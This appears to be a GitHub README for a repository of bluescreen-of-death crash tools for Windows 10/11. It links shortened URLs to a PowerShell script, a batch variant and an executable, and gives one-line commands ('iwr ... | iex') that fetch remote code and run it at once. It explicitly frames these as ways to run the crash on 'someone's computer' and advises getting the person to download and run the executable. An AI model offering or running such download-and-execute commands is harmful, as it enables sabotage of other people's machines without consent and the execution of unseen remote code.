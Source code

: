 # Files
> Repository contianing three methods of causing a bluescreen of death on windows (10/11).

- **Command Prompt**: [https://gg.gg/bsod-cmd](https://gg.gg/bsod-cmd)
- **Executable**: [https://gg.gg/bsod-win](https://gg.gg/bsod-win)
- **PowerShell**: [https://gg.gg/bsod-pwsh](https://gg.gg/bsod-pwsh)

## Methods
> Methods of running these files on someones computer.

### PowerShell / Pwsh
> Powershell Command to download run the script.

```powershell
iwr gg.gg/bsod-pwsh | iex
```

### Command Prompt / Windows + R
> Command prompt / win+r command to download and run the script.

```bat
powershell "iwr gg.gg/bsod-cmd | iex"
```

### Executable
> Windows executable file.

Just get the pwerson to download and run it. (After adding .exe to the end of the downloaded file

**URL**: [https://gg.gg/bsod-win](https://gg.gg/bsod-win)
